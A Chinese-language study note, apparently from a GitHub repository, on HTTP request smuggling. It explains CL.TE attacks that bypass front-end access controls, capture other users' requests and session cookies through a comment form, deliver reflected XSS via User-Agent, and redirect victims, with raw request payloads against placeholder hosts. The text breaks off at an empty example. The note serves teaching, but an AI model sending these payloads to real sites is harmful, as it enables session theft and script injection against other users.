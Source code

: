   ```http
  GET /admin HTTP/1.1
  X-SSL-CLIENT-CN: administrator
  Foo: x
  ```
- 请求走私漏洞可以用于捕获其他用户的请求，前提是目标网站提供相关功能，可以将用户提交的信息进行存储并显示（例如博客的评论体提交功能），可以将此类请求进行请求走私，从而将此类请求拼接到下一个请求的头部，从而在后端处理时，触发被走私的请求的功能，将下一个请求的内容存储并显示，当然存储的数据具有一定限制，例如会被&符号截断
  - 例如下述请求可以将请求体中comment=之后的数据保存显示
  ```http
  POST /post/comment HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 154
  Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

  csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
  ```
  - 则构造如下请求走私，将上述请求作为下一个请求的头部
  ```http
  GET / HTTP/1.1
  Host: vulnerable-website.com
  Transfer-Encoding: chunked
  Content-Length: 324

  0

  POST /post/comment HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 400
  Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

  csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
  ```
  - 故当下一个请求触发时，后端接收到的请求如下，该请求内容被置为comment=之后，从而被记录，但记录内容会被&符号截断
  ```http
  POST /post/comment HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 400
  Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

  csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
  Host: vulnerable-website.com
  Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
  ... 
  ```
- 请求走私可以用于实现反射型xss的漏洞利用，例如反射型xss的漏洞点位于User-Agent: 可以使用如下请求进行利用，即将走私的请求拼接到下一个用户请求的头部
  ```http
  POST / HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 63
  Transfer-Encoding: chunked

  0

  GET / HTTP/1.1
  User-Agent: <script>alert(1)</script>
  Foo: X
  ```
- 请求走私可以利用网站的重定向机制，将用户的网页重定向到外部域
  - 如下请求将根据请求的host字段进行重定向，即将normal-website.com的访问重定向到https://normal-website.com/home/
  ```http
  ```